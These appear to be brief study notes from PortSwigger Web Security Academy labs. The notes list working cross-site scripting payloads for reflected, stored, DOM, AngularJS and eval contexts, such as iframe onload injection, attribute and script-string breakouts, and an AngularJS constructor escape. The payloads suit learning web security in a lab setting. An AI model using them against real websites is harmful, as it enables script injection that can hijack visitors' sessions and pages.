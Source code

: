     $()
    Exploit server
`<iframe src="https://0a0d005404f104ea8166cf5b00ee0014.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

---

**Reflecd XSS - angle brackets HTML-encoded**
    
    search
`"onmouseover="alert(1)`

---

**Stored XSS anchor href - double qoutes HTML encoded**
    
    post
    vuln in website input
`javascript:alert(document.domain)`
`javascript:alert(1)`

---

**Reflect XSS into JS - angle brackets HTML encoded**

    var searchTerms ... ; document.write(<img src= ....... + encodeURIComponent(searchTerms)+'">');
`'-alert(1)-'`

---

**DOM XSS in document.write** - location.search inside a select element

    var stores = ["Lon...]; var store = (new URLSearchParams(window.location.search).get('storeID'); document.write....)
    ...
    document.write('</select>');
`product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>`

---

**DOM XSS in Angular JS** - angle brackets and double quotes HTML-encoded

    <body ng-app>
    search
`{{$on.constructor('alert(1)')()}}`

---

**Reflected DOM XSS**

    searchResult.js
    |- eval('var SearchResultsObj..)
`\"-alert(1)}//`

---

**Stored DOM XSS**
    

[def]: #client-side-summary